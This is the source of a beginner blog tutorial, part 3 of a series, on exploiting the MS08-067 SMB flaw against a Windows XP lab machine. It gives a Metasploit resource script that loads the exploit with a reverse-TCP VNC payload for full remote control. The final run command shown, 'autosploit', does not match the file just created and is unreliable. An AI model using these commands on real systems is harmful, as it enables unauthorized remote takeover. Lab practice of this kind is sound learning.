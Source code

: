 ```yaml
---
layout: post
title:  "First Hack Part 3 (Exploiting The Target)"
date:   2018-04-16 14:56:03 -0400
categories: jekyll update
---
```


<br>[Part 1 (Installing The Virtual Network)][part-1]
<br>[Part 2 (Searching for Targets and their Weaknesses)][part-2]

Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise, you would be committing an illegal act.

<b>Roadmap</b>

Now comes the fun part. Using a tool called Metasploit in order to break into the Windows XP computer with a VNC. a VNC is simply a window that displays the target desktop. It allows you to control it the same way you are controlling your virtual machine. There are 4 simple steps to this.

Searching for the exploit command

Loading the exploit (Code to exploit the weakness)

Loading the payload (Software used to give you control)

Set the Settings and "pwn the box"

<b>Find your own IP</b>
Press Ctrl+Shift+T in order to bring up a new terminal tab

{% highlight ruby %}
ifconfig
{% endhighlight %}

You should get something like this. I highlighted the IP in yellow. Your IP will be in the same spot but most likely different.

![image tooltip](/blog/images/ms08_067/ifconfig.JPG)


<b>Searching for the Exploit Command</b>

The first thing we need to do is use the code identified in part 2. MS08_067 is the exploit we will use. But how do we load it? We need to get the command from the rapid7 database. Go to...

[https://www.rapid7.com/db][rapid7]

Type "MS08_067" in the search field and make sure "Metasploit Module" is selected in the dropdown box.

Look at the code under "Module Name." We will use that once we load Metasploit

<b>Loading the Exploit and Payload</b>

[Offensive Security: Metasploit Commands][commands]

[Offensive Security: Exploits][exploits]

[Offensive Security: Payloads][payloads]

Open a terminal and load nano again. Type in the following.

{% highlight ruby %}
nano windows.rc
{% endhighlight %}

We need to copy and paste the following lines of code which will later be used as commands. Be sure the 192.168.1.244 IP is set to your own target PC.

{% highlight ruby %}
use exploit/windows/smb/ms08_067_netapi
#Use the exploit we found in Rapid7 with the "use" command.
set PAYLOAD windows/vncinject/reverse_tcp
#There are many useful payloads. I will recommend we use a reverse TCP payload in order to gain a VNC session. Load the payload with the "set" command.
set RHOST 192.168.1.244
#I am using the ip of my own target computer. Use the IP for your own
set LHOST 192.168.1.48
#use the IP you just looked up in ifconfig
set ViewOnly false
#Allows the user to control the machine
exploit
#HACK IT!!!
{% endhighlight %}

Press Ctrl+O then Enter to save the file.

<b>Hack It!</b>

Finally, run the command

{% highlight ruby %}
autosploit
{% endhighlight %}

Congratulations, you did it!!

![image tooltip](/blog/images/ms08_067/owned.JPG)

[part-1]: MS08_067_Part_1.html
[part-2]: MS08_067_Part_2.html
[rapid7]: https://www.rapid7.com/db
[commands]: https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/
[exploits]: https://www.offensive-security.com/metasploit-unleashed/exploits/
[payloads]: https://www.offensive-security.com/metasploit-unleashed/payloads/
